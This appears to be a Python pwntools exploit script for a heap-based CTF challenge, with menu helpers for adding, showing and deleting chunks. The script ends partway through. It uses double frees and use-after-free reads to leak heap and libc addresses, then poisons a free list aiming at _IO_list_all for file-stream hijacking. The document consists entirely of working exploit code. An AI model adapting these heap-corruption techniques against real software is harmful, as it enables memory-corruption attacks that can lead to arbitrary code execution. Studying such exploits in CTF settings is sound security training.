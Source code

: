 ```py

def Add(size,content='0'):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil("size?\n")
    p.sendline(str(size))
    p.recvuntil("content?\n")
    p.send(content)

def Show(index):
    p.recvuntil('>> ')
    p.sendline('3')
    p.recvuntil("index ?\n")
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil("index ?\n")
    p.sendline(str(index))


def exp():
    #leak libc
    p.sendlineafter("what is your name?",'123')
    Add(0x20,p64(0x21)*4)#0
    Add(0x20,p64(0x21)*4)#1
    Add(0x80,p64(0x31)*16)#2
    Add(0x20,p64(0x31)*4)#3
    Add(0x50,p64(0x31)*10)#4
    Add(0x1f0,p64(0x31)*18)#5
    Add(0x60,p64(0x21)*12)#6
    Delete(0)
    Delete(1)
    Delete(0)
    Show(0)
    #p.recvline()
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x10
    log.success("heap base => " + hex(heap_base))
    Add(0x20,'\x20')#6
    Add(0x20,p64(0x31)*4)#7
    Add(0x20,p64(0x31)*4)#8


    Add(0x20,p64(0)+p64(0x161))#9

    Delete(1)
    Show(1)
    libc_base = u64(p.recvline().strip("\n").ljust(8,'\x00')) - 88 - 0x10 - libc.sym['__malloc_hook']
    log.success("libc base => " + hex(libc_base))
    Add(0x150)#10
    #Delete(10)
    #Delete(2)
    libc.address = libc_base
    IO_list_all = libc.sym['_IO_list_all']
    #Add(0x150,'a'*0x20+p64(0)+p64(0x91)+p64(0)+p64(IO_list_all-0x10))
    #Add(0x80)
    #get small bins
    Delete(3)
    Delete(0)
    Delete(3)
    Add(0x20,p64(heap_base+0xc0))#11
```
